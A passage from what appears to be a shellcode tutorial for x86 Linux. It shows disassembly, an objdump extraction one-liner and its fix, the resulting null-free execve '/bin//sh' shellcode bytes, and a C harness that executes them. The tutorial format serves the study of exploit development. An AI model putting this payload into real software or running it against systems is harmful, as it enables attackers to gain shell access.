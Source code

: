 ```
 8048072:	6e 
 8048073:	83 ec 08             	sub    esp,0x8
 8048076:	89 e3                	mov    ebx,esp
 8048078:	50                   	push   eax
 8048079:	89 e2                	mov    edx,esp
 804807b:	53                   	push   ebx
 804807c:	89 e1                	mov    ecx,esp
 804807e:	b0 0b                	mov    al,0xb
 8048080:	cd 80                	int    0x80
```

Ok, so if you notice there are no NULLs. Now, notice something 
iteresting. In this case the number of opcodes in this line is 7

```
8048063:   c7 44 24 fc 2f 2f 73    mov    DWORD PTR [esp-0x4],0x68732f2f
```

while in our `cut` here

```
objdump -d $1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

we only allow 6. So this is real example of how tools can fail if you
not aware of what they are really doing. Let's set it to 7 in this
case

```
objdump -d $1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

```
$ shellcode-dump.sh poly
"\x31\xc0\x50\xc7\x44\x24\xfc\x2f\x2f\x73\x68\xc7\x44\x24\xf8\x2f\x62\x69\x6e\x83\xec\x08\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

open `shellcode.c` and paste it

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\xc7\x44\x24\xfc\x2f\x2f\x73\x68\xc7\x44\x24\xf8\x2f\x62\x69\x6e\x83\xec\x08\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
